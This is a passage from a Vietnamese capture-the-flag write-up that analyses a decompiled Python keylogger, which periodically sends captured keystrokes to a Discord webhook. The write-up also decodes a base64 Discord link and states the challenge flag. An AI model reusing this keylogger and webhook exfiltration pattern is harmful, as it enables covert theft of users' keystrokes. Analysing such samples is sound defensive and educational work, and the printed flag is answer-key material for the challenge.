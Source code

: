 ```
            webhook = Webhook(self.WB_URL)
            webhook.send(log)
            return None


    def _key_down(self, key):
Unsupported opcode: COPY
        pass
    # WARNING: Decompyle incomplete


    def _key_up(self, key):
        if key in self.current_keys:
            self.current_keys.remove(key)
            return None


    def _report(self):
        self._send_info(self.log)
        self.log = ''
        Timer(self.interval, self._report).start()


    def run(self):
Unsupported opcode: BEFORE_WITH
        self._report()
    # WARNING: Decompyle incomplete


if __name__ == '__main__':
    Keylogger(WEBHOOK_URL, INTERVAL).run()
    return None
```
- Ta có thể thấy 1 đoạn base64 `aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM=` decode nó ra thì được 1 link discord `https://discord.gg/pswTtUnpJC` vào link discord thì có flag :Đ.
![1718201098516](image/writeup/1718201098516.png)

*`FLAG: L3AK{D1sc0rd_WebH00ks_4re_C001}`*

### III. Do It Dynamically.
